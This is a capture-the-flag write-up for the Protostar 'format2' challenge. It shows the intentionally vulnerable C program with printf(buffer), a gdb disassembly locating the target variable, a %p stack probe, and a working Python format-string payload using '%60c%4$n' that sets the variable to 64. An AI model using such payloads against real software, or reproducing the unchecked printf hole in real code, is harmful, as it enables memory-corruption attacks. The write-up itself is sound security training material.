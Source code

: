 # FORMAT 2

## SOURCE CODE

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);                       //   <--  Format String vulnerability
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## OVERVIEW & IDEA

- This chall has fixed the number of byte when enter input. So we can't use BOF. But we can change the target with format string vulnerability like we did in format 0 & 1. However, we must calculate the size of printed string to modifide the target to 64.

## DETAIL

- To change the value of target, first we must know the address of target we can find it by disassemble vuln function.

```asm
(gdb) disass vuln
Dump of assembler code for function vuln:
0x08048454 <vuln+0>:    push   ebp
0x08048455 <vuln+1>:    mov    ebp,esp
0x08048457 <vuln+3>:    sub    esp,0x218
0x0804845d <vuln+9>:    mov    eax,ds:0x80496d8
0x08048462 <vuln+14>:   mov    DWORD PTR [esp+0x8],eax
0x08048466 <vuln+18>:   mov    DWORD PTR [esp+0x4],0x200
0x0804846e <vuln+26>:   lea    eax,[ebp-0x208]
0x08048474 <vuln+32>:   mov    DWORD PTR [esp],eax
0x08048477 <vuln+35>:   call   0x804835c <fgets@plt>
0x0804847c <vuln+40>:   lea    eax,[ebp-0x208]
0x08048482 <vuln+46>:   mov    DWORD PTR [esp],eax
0x08048485 <vuln+49>:   call   0x804837c <printf@plt>
0x0804848a <vuln+54>:   mov    eax,ds:0x80496e4           ;   <- address of target
0x0804848f <vuln+59>:   cmp    eax,0x40                   ;   <- if (target == 64)
0x08048492 <vuln+62>:   jne    0x80484a2 <vuln+78>
0x08048494 <vuln+64>:   mov    DWORD PTR [esp],0x8048590
0x0804849b <vuln+71>:   call   0x804838c <puts@plt>
0x080484a0 <vuln+76>:   jmp    0x80484b9 <vuln+101>
0x080484a2 <vuln+78>:   mov    edx,DWORD PTR ds:0x80496e4
0x080484a8 <vuln+84>:   mov    eax,0x80485b0
0x080484ad <vuln+89>:   mov    DWORD PTR [esp+0x4],edx
0x080484b1 <vuln+93>:   mov    DWORD PTR [esp],eax
0x080484b4 <vuln+96>:   call   0x804837c <printf@plt>
0x080484b9 <vuln+101>:  leave
0x080484ba <vuln+102>:  ret
End of assembler dump.
```

- Then we find the index of input on stack, this purpose of stuff is feed the `%n` specifier to write value on stack. And I found the index of input is 4.

```
root@protostar:/opt/protostar/bin# ./format2
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
AAAA.0x200.0xb7fd8420.0xbffffb04.0x41414141.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0xa
target is 0 :(
```

- Finally, I use `%n` specifier to take address of input on stack and use `%[number]c` to size the output printed string that will change the content of fed address.

## EXPLOIT

```python
# filename: exp.py

payload = "\xe4\x96\x04\x08"   # address of target in little-edian
#  we want to write 64 bytes on content of target's address so we must be padding the output by 64-4 bytes
# by using %[number]c, then, I add %4$n to feed the 4th argument that is address of target to %n

payload += "%60c%4$n"
# after run printf(buffer); the content of target will change to size of printed string, which is 64

print(payload)

# python exp.py | ./format2
```

## RESULT

```
root@protostar:/opt/protostar/bin# python exp.py | ./format2
�
you have modified the target :)
```